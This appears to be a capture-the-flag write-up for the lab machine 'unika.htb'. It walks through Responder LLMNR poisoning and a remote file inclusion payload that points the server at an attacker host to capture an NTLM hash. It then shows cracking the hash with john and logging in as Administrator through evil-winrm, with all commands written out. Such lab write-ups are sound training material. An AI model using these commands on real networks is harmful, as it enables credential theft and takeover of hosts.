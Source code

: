 # 1. Overview
**Target:** `unika.htb`  
**Difficulty:** Very Easy  
**Primary focus:** Network-based credential harvesting and remote code inclusion → NTLM capture/relay to gain RCE / shell (WinRM).  
**Services observed:** Apache (HTTP) on 80/tcp, WinRM on 5985/tcp.  
**High-level summary:** I discovered a web application vulnerable to remote file inclusion (RFI). By hosting a file and poisoning name resolution on the target LAN with Responder, I captured an NTLM challenge/response hash, cracked it to recover credentials, and used those credentials to obtain a WinRM shell as Administrator. Post‑access enumeration produced the Administrator (root) flag.

---

# 2. Steps

## Reconnaissance
### Nmap scan
- [nmap scan](./evidences/nmap.txt)  
- `nmap -sV unika.htb -oN nmap.txt`  
- Apache web server on port `80/tcp`  
- WinRM server on port `5985/tcp`

---

## Resource Development
### Responder tool
- [NTLM hash](./evidences/ntlm_hash.png)  
- `responder -I tun0`  
- Listening on the interface connected to the target LAN for LLMNR/NetBIOS name resolution requests so we can capture usernames and NTLM challenge/response hashes (MD4).

---

## Initial Access
### Remote File Intrusion (RFI)
- [RFI command](./evidences/remote_file_intrusion.png)  
- `index.php?page=//10.10.14.78/test`  
- Responder logs are stored in `/usr/share/responder/log`  
- The captured hash from the log was saved to: [NTLM hash](./evidences/hash.txt)

### Hash Crack
- [NTLM hash cracked](./evidences/hash_cracking.png)  
- `john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt`

### WinRM Access
- [WinRM shell access](./evidences/WinRM_access.png)  
- `evil-winrm -i unika.htb -u Administrator -p badminton`

---

## Privilege Escalation
- [root flag](./evidences/root_flag.png)  
- `cat C:\Users\mike\Desktop\flag.txt`
